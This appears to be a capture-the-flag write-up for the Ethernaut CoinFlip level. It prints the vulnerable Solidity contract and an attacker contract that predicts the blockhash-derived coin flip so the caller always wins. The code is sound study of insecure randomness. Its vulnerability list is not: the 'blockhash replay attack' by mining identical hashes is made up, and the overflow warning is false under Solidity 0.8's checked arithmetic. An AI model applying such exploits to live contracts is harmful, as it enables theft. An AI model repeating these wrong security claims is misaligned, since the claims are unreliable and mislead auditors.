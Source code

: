 ### TASK

The task is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR =
    57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Gas Golfering

The FACTOR state variable could be declared as constant to save gas.

```solidity
uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

### Code Vunerability

The CoinFlip contract is vulnerable to: <br/>

Blockhash Replay Attack: An attacker can replay the same blockhash value by mining two/more blocks with the same blockhash value, which would allow them to always win the coin flip.
<br/>
Integer Overflow/Underflow: The consecutiveWins variable is not protected against integer overflow/underflow, which could result in unexpected behavior.
<br/>
Everything on the blockchain is public and all variables, including state variables, can be read by anyone. So, lastHash and FACTOR should not be considered private.

```solidity
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

There is no real native randomness in the blockchain and all randomness is pseudo-random, generated by the block hashes. So, it's important to use a secure random number generator to avoid predictable outcomes.

#### Hack the contract

```solidity
contract HackCoinFlip {
  CoinFlip immutable coinflipContract;
  uint256 constant FACTOR =
    57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(CoinFlip _coinflipContract) {
    coinflipContract = CoinFlip(_coinflipContract);
  }

  //call this function 10 times
  function guessValue() external {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    coinflipContract.flip(side);
  }
}
```

Link to Exploit contract: [here](https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/CoinFlip.t.sol)
